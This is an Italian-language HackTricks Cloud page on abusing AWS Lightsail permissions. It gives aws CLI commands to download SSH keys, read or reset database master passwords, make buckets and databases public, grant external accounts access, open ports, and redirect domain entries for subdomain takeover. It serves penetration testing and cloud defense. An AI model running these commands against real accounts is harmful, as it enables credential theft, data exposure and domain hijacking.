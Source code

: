 # AWS - Lightsail Privesc

{% hint style="success" %}
Impara e pratica l'Hacking su AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Per ulteriori informazioni su Lightsail, controlla:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
È importante notare che Lightsail **non utilizza ruoli IAM appartenenti all'utente** ma a un account gestito da AWS, quindi non è possibile abusare di questo servizio per l'escalation dei privilegi. Tuttavia, **dati sensibili** come codice, chiavi API e informazioni sul database potrebbero essere trovati in questo servizio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Questa autorizzazione ti permetterà di ottenere le chiavi SSH per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questa autorizzazione ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questa autorizzazione ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questa autorizzazione ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto Potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questa autorizzazione ti permetterà di cambiare la password per accedere al database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Se il database non è pubblico, potresti renderlo pubblico con questi permessi con

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Impatto Potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questa autorizzazione consente di aprire le porte a Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso alle porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questa autorizzazione consente di aprire le porte a Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata in essa.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto Potenziale:** Accesso alle porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Queste autorizzazioni consentono di dare a un'istanza accesso a un bucket senza alcuna credenziale aggiuntiva

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impatto Potenziale:** Nuovo potenziale accesso a bucket con informazioni sensibili.

### `lightsail:UpdateBucket`

Con questa autorizzazione un attaccante potrebbe concedere al proprio account AWS l'accesso in lettura ai bucket o addirittura rendere i bucket pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto Potenziale:** Possibile nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateContainerService`

Con queste autorizzazioni un attaccante potrebbe concedere accesso a ECR privati dal servizio di contenitori.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Impatto Potenziale:** Ottenere informazioni sensibili dall'ECR privato

### `lightsail:CreateDomainEntry`

Un attaccante con questa autorizzazione potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (takeover del sottodominio), o creare un record SPF che gli permette di falsificare email dal dominio, o addirittura impostare il dominio principale con il proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Takeover di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questa autorizzazione potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (takeover del sottodominio), o creare un record SPF che gli permette di falsificare email dal dominio, o addirittura impostare il dominio principale con il proprio indirizzo IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Impatto Potenziale:** Takeover di un dominio

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}
